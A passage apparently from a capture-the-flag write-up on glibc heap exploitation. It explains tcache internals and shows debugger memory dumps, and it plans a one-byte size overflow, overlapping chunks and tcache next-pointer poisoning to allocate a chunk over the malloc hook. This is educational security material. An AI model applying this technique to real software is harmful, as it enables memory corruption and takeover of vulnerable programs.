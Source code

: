 
So we can see for `tcache_put` it checks to make sure that the index doesn't exceed `TCACHE_MAX_BINS`, and if not it will store the chunk in the linked list and increment the count. For `tcache_get` it checks that the index doesn't exceed `TCACHE_MAX_BINS`, and that the count is greater than `0`. It will then grab the first item from the top of the tcache and return it.

Now to get back to the exploitation, we need to be able to edit a freed chunk in order to edit the tcache linked list and allocate a chunk to the hook of malloc. Taking a look at the heap metadata, we see that the two sizes for the two chunks when allocated are `0x101` and `0x181`:

```
ef➤  x/200g 0x56541cbc3250
0x56541cbc3250: 0x0 0x101
0x56541cbc3260: 0x3030303030303030  0x0
0x56541cbc3270: 0x0 0x0
0x56541cbc3280: 0x0 0x0
0x56541cbc3290: 0x0 0x0
0x56541cbc32a0: 0x0 0x0
0x56541cbc32b0: 0x0 0x0
0x56541cbc32c0: 0x0 0x0
0x56541cbc32d0: 0x0 0x0
0x56541cbc32e0: 0x0 0x0
0x56541cbc32f0: 0x0 0x0
0x56541cbc3300: 0x0 0x0
0x56541cbc3310: 0x0 0x0
0x56541cbc3320: 0x0 0x0
0x56541cbc3330: 0x0 0x0
0x56541cbc3340: 0x0 0x0
0x56541cbc3350: 0x0 0x181
0x56541cbc3360: 0x3131313131313131  0x0
```

So here is our plan. We will use the one byte overflow to overflow the size value of a chunk header, which we will then free. We will overflow a size header of `0x101` (for an `0xf8` byte chunk) with the byte `0x81` to give us the value `0x181`. We will then free it, and then allocate an `0x178` byte chunk. This will give us the chunk for the `0xf8` byte chunk we allocated, but allow us to write `0x178` bytes to it which will give us a pretty large overflow (compared to what we were looking at before). With this we should be able to overwrite the next pointer in a linked list (since we would have freed plenty of chunks as part of the heap grooming process, if not from the infoleak already). Then it will just be a matter of allocating chunks off of the tcache, until it allocates the address of the malloc hook since we overwrite the next pointer in a tcache entry with it.

Let's take a look at how the memory is corrupted exactly as we do this. First we start out with our chunk which we will overflow (holds 33333333) followed by a chunk stored in the tcache mechanism with a linked list pointer:

```
gef➤  x/64g 0x55d01d7cc850
0x55d01d7cc850: 0x0 0x101
0x55d01d7cc860: 0x3333333333333333  0x0
0x55d01d7cc870: 0x0 0x0
0x55d01d7cc880: 0x0 0x0
0x55d01d7cc890: 0x0 0x0
0x55d01d7cc8a0: 0x0 0x0
0x55d01d7cc8b0: 0x0 0x0
0x55d01d7cc8c0: 0x0 0x0
0x55d01d7cc8d0: 0x0 0x0
0x55d01d7cc8e0: 0x0 0x0
0x55d01d7cc8f0: 0x0 0x0
0x55d01d7cc900: 0x0 0x0
0x55d01d7cc910: 0x0 0x0
0x55d01d7cc920: 0x0 0x0
0x55d01d7cc930: 0x0 0x0
0x55d01d7cc940: 0x0 0x0
0x55d01d7cc950: 0x0 0x101
0x55d01d7cc960: 0x55d01d7cca60  0x55d01d7cc010
```
